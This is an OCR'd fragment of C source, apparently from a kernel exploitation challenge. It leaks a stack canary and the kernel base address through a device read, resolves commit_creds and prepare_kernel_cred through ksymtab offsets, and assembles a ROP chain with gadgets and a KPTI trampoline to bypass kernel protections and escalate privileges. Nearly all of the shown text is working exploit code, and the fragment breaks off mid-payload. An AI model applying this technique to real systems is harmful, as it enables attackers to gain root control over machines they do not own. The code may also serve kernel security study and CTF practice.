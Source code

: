 ```c
        exit(-1);
    }
}

unsigned long cookie;
unsigned long imagebase;
unsigned long kpti_trampoline;
unsigned long ksymtab_prepare_kernel_cred;
unsigned long ksymtab_commit_creds;
unsigned long Read4ByteRet;                 //mov eax, dword ptr [rax + 0x10] ; pop rbp ; ret 
unsigned long PopRaxRet;   
unsigned long PopRdiRet;            
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    imagebase = leak[38] - 0xa157;
    
    kpti_trampoline = imagebase + 0x200f10 + 22;
    ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
    ksymtab_commit_creds = imagebase + 0xf87d90;
    Read4ByteRet = imagebase + 0x4aae;
    PopRaxRet = imagebase + 0x4d11;
    PopRdiRet = imagebase + 0x6370;
    
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
    printf("[*] imagebase: %lx\n", imagebase);
}

unsigned long tmp_store;
unsigned long commit_creds;
void get_commit_creds(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax"
    );

    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("[*] =====> commit_creds: %lx\n", commit_creds);
    stage_2();
}

/*leak commit_creds*/
void stage_1(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;       //rbx
    payload[off++] = 0x0;       //r12
    payload[off++] = 0x0;       //rbp
    payload[off++] = PopRaxRet;
    payload[off++] = ksymtab_commit_creds - 0x10;
    payload[off++] = Read4ByteRet;
    payload[off++] = 0;    //pop rbp
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0;             
```